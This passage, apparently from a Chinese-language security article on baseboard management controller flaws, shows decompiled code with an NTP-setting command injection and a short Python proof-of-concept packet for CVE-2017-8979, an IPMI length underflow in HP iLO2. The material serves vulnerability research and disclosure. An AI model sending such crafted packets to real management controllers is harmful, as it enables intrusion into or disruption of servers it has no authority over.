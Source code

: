 重新加载ntp服务时会\[3\]获取主服务器地址，获取成功后\[4\]将主服务器地址Primary不处理直接拼接到ntpdate命令中实现注入\[5\]。

```c
libntpconf = dlopen("/usr/local/lib/libntpconf.so", 2);
if( libntpconf) {
    libami_getntpServer = dlsym(libntpconf, "libami_getntpServer");
    if ( 1ibami_getntpServer && libami_getntpServer(Primary, Secondary, 128))   // [3]
    {
        IDBG_LINUXAPP_DbgOut(130, "[%s:%d]\n Error in getting primary and secondary ntp server\n", "PendTask.c", 4073);
        goto LABEL_7;
    }
    if ( snprintf(ntpdate_cmd, 0x100u, "ntpdate -b -s -u %s", Primary) == -1)   // [4]
    {
     IDBG_LINUXAPP_DbgOut(130, "[%s:%d]\n PrimServer Data is invalid.\n", "PendTask.c", 4078); 
    }
    else
    {
        rc = like_system(ntpdate_cmd);             // [5]
        if( !rc )
         goto LABEL_6;
        IDBG_LINUXAPP_DbgOut( 
         130,
         "[%s:%d]\n NTP update failure in primary server: :%d\n", 
         "PendTask.c",
         &elf_hash_bucket[958], 
         rc);
  ...
```

#### 案例六：CVE-2017-8979

IPMI Zero Length Pool Overflow - HP iLO2 < 2.32

HP iLO在对IPMI消息长度处理时，直接做-6操作，容易导致length整数下溢，并将source拷贝到固定大小的mem中。

```c
length = IPMI_Packet->Message_Length – 6;
mem = pool_block_allocate()
memcpy(mem, source, length);
```

exploit

```python
buf = "0600ff07000000000000000000092018c88100388e0465"
mess= [int(buf[a:a+2], 16) for a in range(0,len(buf), 2)]
p = 13
nm = mess[:p] + [0] + mess[p+1:]
s = SendPacket(nm, sys.argv[1], IPMI_PORT)
```

### （四）HTTPS

HTTPS协议在大部分BMC上默认开启，BMC基本选择使用流行的嵌入式web服务。
